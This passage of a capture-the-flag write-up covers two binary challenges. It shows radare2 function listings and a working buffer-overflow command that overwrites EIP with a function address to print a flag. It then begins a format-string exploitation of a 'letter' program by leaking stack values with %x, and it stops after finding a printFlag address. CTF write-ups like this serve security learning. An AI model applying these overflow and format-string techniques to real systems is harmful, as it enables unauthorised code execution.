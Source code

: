 ```sh
0x0804851f    4 122          main
0x080485a0    4 93           sym.__libc_csu_init
0x08048600    1 2            sym.__libc_csu_fini
0x08048604    1 20           sym._fini
[0x080483e0]> 
```
The address is : 0x080484db
</br> So, now I will try my buffer overflow
</br> I go connect in ssh to the challenge and execute this command : 
```sh
team209535@shell:/problems/roptothetop$ ./rop_to_the_top32 $(python -c 'print "a"*44+"\xdb\x84\x04\x08"')
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault (core dumped)
```
I print 44 a, size off my offset, and in my EIP in execute my fonction the_top with his address. 

### Personnal letter 

Description : 
```
Have you ever gotten tired of writing your name in the header of a letter? Well now there’s a program (source)to do it for you! Navigate to /problems/letter/ on the shell server to try your exploit out!
```
Let's go for this binary challenge.
</br>I started to analyse my binary on my computer. 
</br>When I executed, I saw one input which ask enter 100 chars max and give a name to generate a letter for me, Ho :D ! 
</br>Ok, I try "%x" in input to see what we have on a stack. 
```sh
Enter Name (100 Chars max): 
%x
________________________________________
|                                      |
|                                      |
|  Dear ff9cf618,    
```
Good, we see what we have on a stack, if it's that do, it's probably a format string. 
</br>Now, I want to see all function with radare2 :
```sh
0x08048620    1 6            sub.__gmon_start_620
0x08048630    1 33           entry0
0x08048660    1 4            sym.__x86.get_pc_thunk.bx
0x08048670    4 43           sym.deregister_tm_clones
0x080486a0    4 53           sym.register_tm_clones
0x080486e0    3 30           sym.__do_global_dtors_aux
0x08048700    4 43   -> 40   entry1.init
0x0804872b    6 157          sym.printFlag
0x080487c8    7 831          sym.printCard
0x08048b07    1 221          sym.main
0x08048bf0    4 93           sym.__libc_csu_init
0x08048c50    1 2            sym.__libc_csu_fini
0x08048c54    1 20           sym._fini
```
We can see, we have a function, main and a function printFlag. I take the address of the function printFlag. We will need it. "0x0804872b"
